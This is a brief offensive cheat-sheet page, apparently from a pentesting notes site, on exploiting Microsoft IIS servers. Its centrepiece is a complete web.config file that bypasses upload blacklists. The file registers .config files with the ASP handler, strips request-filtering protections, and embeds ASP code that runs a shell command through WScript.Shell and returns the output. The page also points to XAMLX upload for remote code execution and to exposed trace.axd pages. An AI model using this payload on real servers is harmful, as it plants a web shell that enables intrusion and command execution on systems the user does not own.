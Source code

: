 ```yaml
---
title: "IIS"
description: "Exploit vulnerabilities on IIS servers"
date: 25/11/2019
categories:
 - Web
tags:
 - IIS
 - rce
 - Windows
---
```



## Bypass blacklist upload

It's possible to bypass blacklist upload while uploading a `web.config` file.
For this, you need to set execution rights to `.config` and then adding `ASP` code
in the `web.config`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
```


## Upload XAMLX file to get RCE

[NCCGroup](https://research.nccgroup.com/2019/08/23/getting-shell-with-xamlx-files/)
describes how to upload a `XAMLX` file to execute code on a remote IIS server.


## Tracing

[Tracing](https://docs.microsoft.com/en-us/previous-versions/dotnet/articles/ms972204(v=msdn.10)?redirectedfrom=MSDN)
might be activate on the server. For example, check `/trace.axd`.
